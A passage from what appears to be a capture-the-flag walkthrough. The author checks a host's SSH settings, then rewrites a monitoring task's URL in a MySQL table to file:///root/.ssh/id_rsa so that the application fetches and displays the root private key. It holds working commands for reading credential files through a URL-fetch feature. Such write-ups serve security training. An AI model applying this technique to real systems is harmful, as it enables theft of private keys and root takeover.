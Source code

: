 With this, I assume that all tasks are getting put under "tasks". 
```shell
mysql> select * from tasks;
Empty set (0.00 sec)
```

There are no tasks at the moment. 

Since we are already on the system, what file should we grab? Let's look and see what the ssh configuration allows.

```shell
cat /etc/ssh/sshd_config | grep -v '^[#]' | grep .
ChallengeResponseAuthentication no
UsePAM yes
PermitRootLogin yes
X11Forwarding yes
PrintMotd no
AcceptEnv LANG LC_*
Subsystem sftp  /usr/lib/openssh/sftp-server
PasswordAuthentication yes
```

Awesome root is allowed to log in using ssh. Since we do not have the password for root, we can hope that they have a ssh key. The most common of which is id_rsa. There are other common ones as well such as id_dsa, id_ecdsa, and id_ed25519. 

With that being said let's change the task to see if id_rsa exists for the root user.

```shell
update tasks set monitoredUrl='file:///root/.ssh/id_rsa';
```
*Be careful with this command because it will update all of the tasks with the new monitoredUrl. Changing all of them is not a good idea in a real environment. However, we are running against a clock that deletes these tasks every minute so we are going to use the quick and dirty route for this.*

We will use the file filter to get the file from the local machine instead of using the expected http filter to get a webpage. 

It worked:

![](rsa_key.png)
